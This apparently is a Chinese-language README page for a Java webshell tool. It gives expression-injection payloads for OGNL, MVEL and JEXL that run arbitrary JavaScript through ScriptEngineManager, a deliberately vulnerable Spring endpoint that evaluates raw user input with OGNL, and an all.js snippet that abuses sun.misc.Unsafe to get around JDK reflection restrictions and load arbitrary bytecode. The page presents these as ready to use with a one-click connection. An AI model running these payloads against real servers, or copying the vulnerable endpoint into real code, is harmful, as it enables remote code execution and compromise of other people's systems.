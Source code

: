 ### Ognl

```
(new javax.script.ScriptEngineManager()).getEngineByName("js").eval(code)
```
漏洞环境
```
@RequestMapping("/ognl")
public String eval(String str) throws Exception {
    OgnlContext context = new OgnlContext();
    Object ognl = Ognl.parseExpression(str);
    Object value = Ognl.getValue(ognl, context, context.getRoot());
    return value.toString();
}
```



选择ognl编码器，一键连接

![image-20230802163807149](./assets/image-20230802163807149.png)

### Mvel

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(code);
```

### Jexl

```
''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)
```



##  js加载任意字节码

### all.js

适用范围：jdk6-14

```
var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafeMethod.setAccessible(true);
unsafe = theUnsafeMethod.get(null);

function bypass() {
    var reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
    var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);

    var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");

    if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
        unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").newInstance());
    }
    var clz = java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes();
    var ClassAnonymousClass = unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), clz, null);
    var reflectionDataField = ClassAnonymousClass.getDeclaredField("reflectionData");
    unsafe.putObject(java.lang.Class.forName("java.lang.Class"), unsafe.objectFieldOffset(reflectionDataField), null);
}
```